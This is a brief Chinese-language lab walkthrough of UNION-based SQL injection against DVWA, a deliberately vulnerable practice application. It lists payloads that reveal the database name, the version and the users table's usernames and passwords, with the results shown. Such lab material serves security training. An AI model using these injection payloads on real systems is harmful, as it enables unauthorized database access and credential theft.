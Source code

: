暴库

id=1 union select 1,database() 得到库名：dvwa

![image-20220726174513934](assets/image-20220726174513934.png)

id=1 union select version(),database() 得到库名：数据库版本5.7.26, dvwa

![image-20220726174614940](assets/image-20220726174614940.png)

id=1 union select group_concat(user),group_concat(password) from users

得到5个用户：admin,gordonb,1337,pablo,smithy

![image-20220726174832902](assets/image-20220726174832902.png)